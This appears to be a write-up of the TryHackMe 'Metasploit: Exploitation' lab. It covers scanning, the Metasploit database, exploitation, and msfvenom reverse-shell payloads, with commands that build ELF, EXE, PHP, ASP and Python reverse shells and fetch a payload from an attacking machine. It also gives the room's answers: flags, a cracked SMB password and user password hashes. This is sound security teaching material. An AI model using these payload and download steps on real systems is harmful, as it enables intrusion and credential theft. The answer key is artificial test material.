





# [Metasploit: Exploitation](https://tryhackme.com/room/metasploitexploitation)

## Task 1 - Introduction

In this room, we will learn how to use Metasploit for vulnerability scanning and exploitation. We will also cover how the database feature makes it easier to manage penetration testing engagements with a broader scope. Finally, we will look at generating payloads with `msfvenom` and how to start a Meterpreter session on most target platforms.

More specifically, the topics we will cover are:  

* How to scan target systems using Metasploit.
* How to use the Metasploit database feature.
* How to use Metasploit to conduct a vulnerability scan.
* How to use Metasploit to exploit vulnerable services on target systems.
* How msfvenom can be used to create payloads and obtain a Meterpreter session on the target system.

Please note that for all questions that require using a wordlist (e.g brute-force attacks), we will be using the wordlist on the AttackBox found at the following path:

`/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt` 

If you opt to use your own machine, please download the wordlist by clicking the Download Task Files button to the right.

Start the AttackBox and run Metasploit using the `msfconsole` command to follow along with this room.

### Answer the questions

Start the AttackBox and run Metasploit using the `msfconsole` command to follow along this room.

## Task 2 - Scanning

**Port Scanning**

Metasploit has a number of modules to scan open ports on the target system and network. You can list potential port scanning modules available using the search portscan command.
Search portscan

Port scanning modules will require you to set a few options:

* **CONCURRENCY**: Number of targets to be scanned simultaneously.
* **PORTS**: Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
* **RHOSTS**: Target or target network to be scanned.
* **THREADS**: Number of threads that will be used simultaneously. More threads will result in faster scans.

You can directly perform Nmap scans from the msfconsole prompt as shown below faster:

 

As for information gathering, if your engagement requires a speedier approach to port scanning, Metasploit may not be your first choice. However, a number of modules make Metasploit a useful tool for the scanning phase.

**UDP service Identification**

The scanner/discovery/udp_sweep module will allow you to quickly identify services running over the UDP (User Datagram Protocol). As you can see below, this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.

UDP scan

**SMB Scans**

Metasploit offers several useful auxiliary modules that allow us to scan specific services. Below is an example for the SMB. Especially useful in a corporate network would be smb_enumshares and smb_version but please spend some time to identify scanners that the Metasploit version installed on your system offers.

When performing service scans, it would be important not to omit more "exotic" services such as NetBIOS. NetBIOS (Network Basic Input Output System), similar to SMB, allows computers to communicate over the network to share files or send files to printers. The NetBIOS name of the target system can give you an idea about its role and even importance (e.g. CORP-DC, DEVOPS, SALES, etc.). You may also run across some shared files and folders that could be accessed either without a password or protected with a simple password (e.g. admin, administrator, root, toor, etc.).

Remember, Metasploit has many modules that can help you have a better understanding of the target system and possibly help you find vulnerabilities. It is always worth performing a quick search to see if there are any modules that could be helpful based on your target system.

### Answer the questions below

* How many ports are open on the target system?

	`5`

	

* Using the relevant scanner, what NetBIOS name can you see?

	`ACME IT SUPPORT`

	

* What is running on port 8000?

	`webfs/1.21`

	

* What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. 

	`leo1234`

	

## Task 3 - The Metasploit Database

While it is not required when interacting with a single target on TryHackMe, an actual penetration testing engagement will likely have several targets. 

Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values. 

You will first need to start the PostgreSQL database, which Metasploit will use with the following command: 

`systemctl start postgresql`

Then you will need to initialize the Metasploit Database using the `msfdb init` command.

You can now launch `msfconsole` and check the database status using the `db_status` command.

The database feature will allow you to create workspaces to isolate different projects. When first launched, you should be in the default workspace. You can list available workspaces using the `workspace` command. 

You can add a workspace using the -a parameter or delete a workspace using the -d parameter, respectively. The screenshot below shows that a new workspace named "tryhackme" was created.

You will also notice that the new database name is printed in red, starting with a `*` symbol.

You can use the workspace command to navigate between workspaces simply by typing `workspace` followed by the desired workspace name. 

You can use the `workspace -h` command to list available options for the `workspace` command. 

Different from regular Metasploit usage, once Metasploit is launched with a database, the `help` command, you will show the Database Backends Commands menu.

If you run a Nmap scan using the `db_nmap` shown below, all results will be saved to the database. 

You can now reach information relevant to hosts and services running on target systems with the hosts and services commands, respectively. 

The `hosts -h` and `services -h` commands can help you become more familiar with available options. 

Once the host information is stored in the database, you can use the `hosts -R` command to add this value to the RHOSTS parameter. 

`Example Workflow`

* We will use the vulnerability scanning module that finds potential MS17-010 vulnerabilities with the `use auxiliary/scanner/smb/smb_ms17_010` command.
* We set the RHOSTS value using `hosts -R`.
* We have typed `show options` to check if all values were assigned correctly. (In this example, 10.10.138.32 is the IP address we have scanned earlier using the `db_nmap` command)
* Once all parameters are set, we launch the exploit using the `run` or `exploit` command. 

If there is more than one host saved to the database, all IP addresses will be used when the `hosts -R` command is used. 

In a typical penetration testing engagement, we could have the following scenario:  
* Finding available hosts using the `db_nmap` command
* Scanning these for further vulnerabilities or open ports (using a port scanning module) 

The services command used with the `-S` parameter will allow you to search for specific services in the environment. 

You may want to look for low-hanging fruits such as:

* HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
* FTP: Could allow anonymous login and provide access to interesting files. 
* SMB: Could be vulnerable to SMB exploits like MS17-010
* SSH: Could have default or easy to guess credentials
* RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used. 

As you can see, Metasploit has many features to aid in engagements such as the ability to compartmentalize your engagements into workspaces, analyze your results at a high level, and quickly import and explore data.

## Task 4 - Vulnerability Scanning

Metasploit allows you to quickly identify some critical vulnerabilities that could be considered as “low hanging fruit”.  The term “low hanging fruit” usually refers to easily identifiable and exploitable vulnerabilities that could potentially allow you to gain a foothold on a system and, in some cases, gain high-level privileges such as root or administrator.

Finding vulnerabilities using Metasploit will rely heavily on your ability to scan and fingerprint the target. The better you are at these stages, the more options Metasploit may provide you. For example, if you identify a VNC service running on the target, you may use the `search` function on Metasploit to list useful modules. The results will contain payload and post modules. At this stage, these results are not very useful as we have not discovered a potential exploit to use just yet. However, in the case of VNC, there are several scanner modules that we can use. 

You can use the `info` command for any module to have a better understanding of its use and purpose.

As you can see, the `vnc_login` module can help us find login details for the VNC service.

### Answer the questions

* Who wrote the module that allows us to check SMTP servers for open relay?

	`Campbell Murray`

	

## Task 5 - Exploitation

As the name suggests, Metasploit is an exploitation framework. Exploits are the most populated module category. 

You can search exploits using the `search` command, obtain more information about the exploit using the `info` command, and launch the exploit using exploit. While the process itself is simple, remember that a successful outcome depends on a thorough understanding of services running on the target system.

Most of the exploits will have a preset default payload. However, you can always use the `show payloads` command to list other commands you can use with that specific exploit. 

Once you have decided on the payload, you can use the `set payload` command to make your choice.

Note that choosing a working payload could become a trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (eg. payload/python/shell_reverse_tcp).

Some payloads will open new parameters that you may need to set, running the `show options` command once more can show these. As you can see in the above example, a reverse payload will at least require you to set the `LHOST` option.

Once a session is opened, you can background it using `CTRL+Z` or abort it using `CTRL+C`. Backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell. 

**Working with sessions**

The `sessions` command will list all active sessions. The `sessions` command supports a number of options that will help you manage sessions better. 

You can interact with any existing session using the `sessions -i` command followed by the session ID.

Deploy the target machine and answer the questions below:

### Answer the questions below

* Exploit one of the critical vulnerabilities on the target VM

	

* What is the content of the flag.txt file?

	`THM-5455554845`

	Setup exploit

	

	Flag.txt

	

* What is the NTLM hash of the password of the user "pirate"?

	`8ce9a3ebd1647fcc5e04025019f4b875`

	

## Task 6 - Msfvenom

Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

`Output formats`

You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The `msfvenom --list` formats command can be used to list supported output formats

`Encoders`

Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`. 

`Handlers`

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. When using an exploit module, this part is automatically handled by the exploit module, you will remember how the `payload options` title appeared when setting a reverse shell. The term commonly used to receive a connection from a target is 'catching a shell'. Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.

The following scenario may be familiar; we will exploit the file upload vulnerability present in DVWA (Damn Vulnerable Web Application). For the exercises in this task, you will need to replicate a similar scenario on another target system, DVWA was used here for illustration purposes. The exploit steps are;

1. Generate the PHP shell using MSFvenom
2. Start the Metasploit handler
3. Execute the PHP shell

MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect. Seen below, 10.0.2.19 is the IP address of the AttackBox used in the attack and local port 7777 was chosen. 

Please note: The output PHP file will miss the starting PHP tag commented and the end tag (`?>`), as seen below. 

The reverse_shell.php file should be edited to convert it into a working PHP file. 

Below: Comments removed from the beginning of the file. 

Below: End tag added

We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command.

Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.

To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values. 

Once everything is set, we will `run` the handler and wait for the incoming connection. 

When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell.

If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

`Other Payloads`

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

Linux Executable and Linkable Format (elf)  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

Windows  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

Python  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.

### Answer the questions

* Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

	

* Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).
	
	

* Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

	* HTTP Server on attacking machine
	
		

	* Download file on target machine
	
		

* Get a meterpreter session on the target machine.

	* Run handler
	
		

	* Meterpreter
	
		

* Use a post exploitation module to dump hashes of other users on the system.

	

* What is the other user's password hash?

	`$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`

	

## Task 7 - Summary

You should now have a better understanding of how Metasploit can help you identify potential vulnerabilities on target systems and exploit these vulnerabilities.

You have also seen how the database feature can help you with penetration testing engagements where you have multiple potential targets.

Finally, you should have gained some experience with msfvenom and the creation of stand-alone Meterpreter payloads. This is especially helpful in situations where you can upload a file to the target system or have the ability to download files to the target system. Meterpreter is a powerful tool that offers a lot of easy to use features during the post-exploitation phase.
